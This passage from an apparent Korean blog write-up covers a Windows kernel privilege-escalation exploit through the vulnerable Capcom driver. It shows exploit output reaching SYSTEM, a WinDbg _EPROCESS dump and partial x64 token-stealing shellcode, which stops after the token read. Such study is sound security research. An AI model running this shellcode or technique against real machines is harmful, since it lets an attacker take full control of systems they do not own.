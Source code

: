 
망나니 처럼 길다. 일단 결과는 아래와 같다.

```
C:\Users\Shh0ya\Desktop\Apex>CapcomExp.exe
Device Handle : 00000000000000B0
inBuffer : 0000028CDBE60000
inBuffer = 0000028CDBE60000 0000000000000008
Call DeviceIoControl
계속하려면 아무 키나 누르십시오 . . .

C:\Users\Shh0ya\Desktop\Apex>whoami
nt authority\system
```

첫번째 나는 `InheritedFromUniqueProcessId`에 대한 존재를 몰랐다. 이는 부모의 PID를 의미하는 듯하다. 나는 콘솔 프로그램을 찾을 때, 아스키 문자를 통해 한글자씩 비교하여 토큰 값을 복사했다. 그러나 `InheritedFromUniqueProcessId`를 이용하면 그럴 필요가 없다.

디버깅을 해보면 처음 구하는 `EPROCESS` 구조체의 주인이 익스플로잇 프로그램이기 때문이다.

```
4: kd> dt_EPROCESS @rdx
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2d8 ProcessLock      : _EX_PUSH_LOCK
   +0x2e0 UniqueProcessId  : 0x00000000`0000095c Void
   +0x2e8 ActiveProcessLinks : _LIST_ENTRY [ 0xfffff806`05228560 - 0xffff8d85`a4b1a368 ]
...
   +0x3e0 InheritedFromUniqueProcessId : 0x00000000`0000233c Void
...
   +0x450 ImageFileName    : [15]  "CapcomExp.exe"
```

여기서 `InheritedFromUniqueProcessId`를 저장하고 있다가 이후에 루프문을 통해 해당 값과 동일한 `UniqueProcessId`를 찾으면 그게 CMD 다.

그렇기 때문에 더 좋은 쉘 코드는 아래와 같다고 할 수 있다.

```
.code
	Backup_Register proc
		PUSH RCX
		PUSH RDX
		PUSH R8
		PUSH R9
		PUSH RDI
	Backup_Register endp

	GetStruct proc
		MOV RCX, gs:[188h]
		MOV RDX, [RCX+0B8h]
		MOV R8, [RDX+2E8h]
		MOV RDI, [RDX+3E0h]
		MOV RCX, [R8]
	GetStruct endp

	FindProcess proc
		MOV RDX, [RCX-8]
		CMP RDX, 4
		JZ GetToken
		MOV RCX, [RCX]
		JMP FindProcess
	FindProcess endp

	GetToken proc
		MOV RAX, [RCX+70h]
		AND al, 0f0h
	GetToken endp

```